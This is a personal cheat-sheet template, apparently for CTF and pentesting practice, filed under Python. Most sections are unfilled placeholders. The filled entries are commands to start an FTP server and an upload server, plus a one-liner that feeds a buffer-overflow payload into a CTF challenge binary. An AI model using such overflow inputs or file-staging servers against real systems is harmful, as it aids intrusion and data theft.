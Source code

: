 # Python

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

Create an FTP server
```bash
sudo python3 -m pyftpdlib --port 21
```
^create-ftp-server

Pipe raw bytes to a file input
```bash
python3 -c '__import__("sys").stdout.buffer.write(b"A"*56 + b"\x5a\x1e\x3c\x5a\x00\x00\x00\x00")' | /challenge/binary-exploitation-var-control 
```
^pipe-raw-bytes

```bash
python3 -m uploadserver
```
^uploadserver

### Category 2

Brief description of this category

command syntax ^python-category2

### Category 3

Brief description of this category

command syntax ^python-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #python
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#python #tool